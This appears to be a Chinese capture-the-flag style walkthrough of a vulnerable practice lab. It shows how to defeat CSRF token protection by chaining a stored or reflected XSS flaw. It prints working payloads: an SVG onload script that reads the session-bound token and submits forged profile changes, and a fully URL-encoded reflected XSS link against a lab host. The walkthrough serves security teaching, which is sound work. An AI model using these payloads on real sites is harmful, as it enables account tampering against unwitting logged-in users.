


> 带 CSRF Token 防护的登录 / 修改页面，**单纯 CSRF 无法直接打**：同源策略限制，恶意页面不能跨域读取另一个网站页面里的 token，拿不到随机 token 就无法构造合法请求。本题考点：**必须结合 XSS 漏洞，XSS 读取页面中的 token，再发起带 token 的伪造请求**，完成 CSRF 攻击。

## 1. 先理解页面逻辑

访问：`token_get_login.php`，是登录表单；登录后跳转到`token_get_edit.php`修改信息页面。

- 修改信息表单里有隐藏输入框：`<input type=hidden name="token" value="xxxx">`
- 每次刷新页面 token 随机变化，和当前用户 Session 绑定。
- 正常 CSRF 的 html 表单，跨域页面拿不到这个 token，提交会报 token 错误。

> 
> ❌ 错误做法：直接写一个静态 html 表单，写死 token，刷新靶场页面 token 就变，直接失效。

## 2. 攻击原理（XSS+CSRF‑Token 绕过）

1. 受害者登录靶场，处于登录状态（Cookie PHPSESSID 有效）
2. 诱导受害者访问**含有 XSS 的页面**（靶场其他模块存在 XSS 点）
3. XSS 脚本在受害者浏览器的靶场域名下执行（同源！），可以用 JS 读取当前页面 DOM 中的`token`值
4. JS 拿到 token 后，自动发起 POST 请求，带上正确 token + 浏览器自动带上受害者 Cookie，完成 CSRF 修改资料操作。

<svg OnLoad='fetch("../csrf/csrftoken/token_get_edit.php",{credentials:"same-origin"}).then(r=>r.text()).then(h=>{t=h.match(/name="token" value="(.*?)"/)[1];f=new FormData();f.append("sex","girl");f.append("phonenum","9999999999");f.append("add","HACKED");f.append("email","hack@test.com");f.append("token",t);f.append("submit","submit");fetch("../csrf/csrftoken/token_get_edit.php",{method:"POST",body:f,credentials:"same-origin"})})'>

##  做题步骤完整流程

1. 正常访问靶场，账号密码登录，确认可以正常修改个人资料，抓包观察请求：POST 参数包含`token`。
2. 找到靶场存储 XSS 的注入点，把上面的 js 脚本注入进去。
3. 保持浏览器处于登录状态，访问存在注入 XSS 的页面。
4. 页面加载，JS 执行：iframe 加载 edit 页面，读取页面内动态 token，自动提交 POST 修改请求。
5. 返回个人资料页面，信息被篡改，完成本题。

完整操作

这是原信息
然后用户访问xss链接后（https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/xss/xss_reflected_get.php?message=%3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%22GET%22%2C%22https%3A%2F%2F27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club%2Fvul%2Fcsrf%2Fcsrftoken%2Ftoken_get_edit.php%22%29%3Bxhr.withCredentials%3Dtrue%3Bxhr.onload%3Dfunction%28%29%7Bvar+token+%3D+xhr.responseText.match%28%2Fname%3D%22token%22+value%3D%22%28%5B0-9a-zA-Z%5D%2B%29%22%2F%29%5B1%5D%3Blocation.href+%3D+%22https%3A%2F%2F27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club%2Fvul%2Fcsrf%2Fcsrftoken%2Ftoken_get_edit.php%3Fsex%3Dgirl%26phonenum%3D13800000000%26add%3Dhacked%26email%3Dhack%40test.com%26token%3D%22%2Btoken%2B%22%26submit%3D%22%3B%7D%3Bxhr.send%28%29%3B%3C%2Fscript%3E&submit=submit
）（链接通过test.py脚本生成），页面回显如下

看到信息已经被修改了，成功。
本题的逻辑时，当前用户已经登入的情况下，访问有害链接。进而导致被hack获取到了token同时通过 “反射型xss(get)”
完成个人信息修改。

